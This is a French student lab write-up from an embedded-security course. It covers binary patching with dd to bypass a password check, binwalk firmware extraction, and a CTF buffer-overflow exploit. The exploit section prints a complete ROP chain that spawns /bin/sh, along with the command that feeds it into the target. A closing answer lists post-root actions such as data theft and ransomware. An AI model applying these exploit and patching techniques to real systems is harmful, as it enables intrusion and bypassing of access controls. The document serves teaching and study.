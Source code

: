 # Sécurité embarquée

## Emily

Compilation du code:
```bash
$ gcc program.c -o program
```

La commande `file` renvoie :

```bash
program: ELF 64-bit LSB pie executable, x86-64, version 1 (SYSV), dynamically linked, interpreter /lib64/ld-linux-x86-64.so.2, BuildID[sha1]=3bb60bd488a208256800ce0dfa3d40e64bf77217, for GNU/Linux 3.2.0, not stripped

```

Dissassembly :

Afin de voir les instructions du binaire compilé précedemment, on utilise objdump avec les options
-S -l -C -F -t -w
Voici leurs utilités :
* -S : afficher le code source si possible
* -l : nombre de lignes
* -C : demangle (rend lisable par un humain)
* -F : affiche l'offset
* -t : table des symboles
* -w : formatage

Ce qu'on veut accomplir, c'est modifier le programme pour que le test renvoie que le mot de passe correcte peu importe le mot de passe tapé.

![Code assembleur de la fonction is_valid](TD1/Dissassembly.png)

Ici dans la fonction is_valid on voit qu'a l'offset 11a4 on fait le test de comparaison. Si le test renvoie faux on execute l'offset 11af et on insère la valeur 0 dans le registre eax. Si le test est vrai, on voit à l'offset 11a8 qu'on met 0x01 sur le registre eax.

Il faut donc modifier ce qu'il se passe à l'offset 11b0
11b0 = 4528 donc l'octet à modifier est l'octet 4528.

```bash
$ printf '\x01' | dd of=program bs=1 seek=4528 count=1 conv=notrunc
```
![Succès](TD3/Réussite.png)

### Questions

**Quelles sont les attaques possible sur une boucle for ?**

En effectuant un patching sur un programme disposant d'une boucle for, on peut agir et modifier la variable de contrôle de la boucle et ainsi provoquer une sortie prématurée de la boucle, ou au contraire, empêcher le programme de sortir de la boucle.

**Quelle défense est-ce je peux utiliser contre le patching ?**

Il est difficile de protéger un programme contre de tels attaque, néanmoins, un certain nombre de mesures peuvent être mises en place pour rendre la tache plus compliquée.
Une option est l'obfuscation du code. En rendant notre binaire désassemblé compliqué à lire et à comprendre, on augmente la complexité pour un attaquant de patcher le binaire.

## Retrouver et modifier Tux à l'aide de Binwalk

On dispose d'une image qui est émulée par qemu et dont on veut trouver un des assets (Tux) et ensuite le modifier. Pour celà nous allons utiliser l'outil binwalk.
Première étape: Retrouver l'image de tux.

```bash
$ binwalk -Me vmlinuz-qemu-arm-2.6.20

```
L'option -e demande à binwalk d'extraire tous les types de fichiers connus. L'option -M permet de faire ça récursivement. Le résultat obtenu est un ensemble de dossier menant à un système de fichiers linux:

"_vmlinuz-qemu-arm-2.6.20.extracted/_31B0.extracted/_E7E0.extracted/cpio-root/"

On retrouve tux dans le dossier
"_vmlinuz-qemu-arm-2.6.20.extracted/_31B0.extracted/_E7E0.extracted/cpio-root/usr/local/share/directfb-examples/tux.png"


## Speedrun Bufferoverflow

On va faire segfault le programme lorsqu'il demande une entrée utilisateur.
Après plusieurs essais, il semblerait que le programme plante quand on entre 1025 caractères.

![segfault](TD3/seg-fault.png)

Nous allons maintenant créer notre rop chain à l'aide de ropper et écrire notre exploit:

```python

#!/usr/bin/env python
# Generated by ropper ropchain generator #
from struct import pack

p = lambda x : pack('Q', x)

IMAGE_BASE_0 = 0x0000000000400000 # 95fd123f83e8d4235fb2e3463ec369da68685c2479a0cb62baa251165484d22c
rebase_0 = lambda x : p(x + IMAGE_BASE_0)

rop = ''

rop += rebase_0(0x000000000000dafb) # 0x000000000040dafb: pop r13; ret; 
rop += '//bin/sh'
rop += rebase_0(0x0000000000000686) # 0x0000000000400686: pop rdi; ret; 
rop += rebase_0(0x00000000002b90e0)
rop += rebase_0(0x0000000000068759) # 0x0000000000468759: mov qword ptr [rdi], r13; pop rbx; pop rbp; pop r12; pop r13; ret; 
rop += p(0xdeadbeefdeadbeef)
rop += p(0xdeadbeefdeadbeef)
rop += p(0xdeadbeefdeadbeef)
rop += p(0xdeadbeefdeadbeef)
rop += rebase_0(0x000000000000dafb) # 0x000000000040dafb: pop r13; ret; 
rop += p(0x0000000000000000)
rop += rebase_0(0x0000000000000686) # 0x0000000000400686: pop rdi; ret; 
rop += rebase_0(0x00000000002b90e8)
rop += rebase_0(0x0000000000068759) # 0x0000000000468759: mov qword ptr [rdi], r13; pop rbx; pop rbp; pop r12; pop r13; ret; 
rop += p(0xdeadbeefdeadbeef)
rop += p(0xdeadbeefdeadbeef)
rop += p(0xdeadbeefdeadbeef)
rop += p(0xdeadbeefdeadbeef)
rop += rebase_0(0x0000000000000686) # 0x0000000000400686: pop rdi; ret; 
rop += rebase_0(0x00000000002b90e0)
rop += rebase_0(0x00000000000101f3) # 0x00000000004101f3: pop rsi; ret; 
rop += rebase_0(0x00000000002b90e8)
rop += rebase_0(0x000000000004be16) # 0x000000000044be16: pop rdx; ret; 
rop += rebase_0(0x00000000002b90e8)
rop += rebase_0(0x0000000000015664) # 0x0000000000415664: pop rax; ret; 
rop += p(0x000000000000003b)
rop += rebase_0(0x0000000000074e65) # 0x0000000000474e65: syscall; ret; 

buffer = "A"*1024 + "B" * 8
open('rop','w').write(buffer + rop + "\n")
```
Les 8 B servent à écraser le registre rsp et on met notre ropchain juste après.

Maintenant pour exploiter le buffer overflow on lance cette commande
```bash
(cat rop; cat) | ./speedrun-001 
```

Vérifions que cela fonctionne correctement.

![buffer overflow qui fonctionne](TD3/buffer-overflow.png)

### Questions

**Que peut on faire une fois root?**

Maintenant que nous sommes root sur la machine, plusieurs possibilités s'offre à nous :
 
* Voler des données sensibles (mot de passes, donées personneles, donées confidentielles)
* Mettre en place un accès privilégier et persistent. Il nous est possible d'installer des programmes malveillant afin de conserver notre accès root à la machine dans le futur
* Déployer un ransomware pour extorquer de l'argent
* etc.

**Cette méthode est elle applicable dans le cas d'un use after free?**

Afin de réaliser cette attaque dans le cas d'un use after free, il faudrait réussir à passer notre exploit ou une référence vers notre exploit à un espace mémoire libéré par le programme. 

**Qu'est-ce que je peux faire pour diminuer / contrer les bugs ?**

Il serait judicieux de bien contrôler les entrées des utilisateurs pour tenter de mitiger les attaques. De plus, l'activation des protections systèmes comme l'ASLR et les canarys rendent ce genre d'attaque bien plus difficile à effectuer.

## Toolbox 

### Questions

**Quels sont les critères qui rendent une vulnérabilité critique?**

Plusieurs critères rentrent en compte pour établir la criticité d'une vulnérabilité.
On note notamment la complexité de l'exploitation, les privilèges requis, le vecteur d'attaque (local,physique ou réseau par exemple), l'impact de la vulnérabilité. 

**Selon ces critères, quelle interface devrait être testée en premier? Pourquoi?**

Je dirais que les interfaces les plus sensibles sont les interfaces RJ45 et Wifi. Ces deux interfaces sont celles qui relient l'ordinateur à Internet et sont donc exposées à un nombre de menaces potentielles élevé. Leur compromission permettrait à l'attaquant de totalement controler le flux internet de la victime.
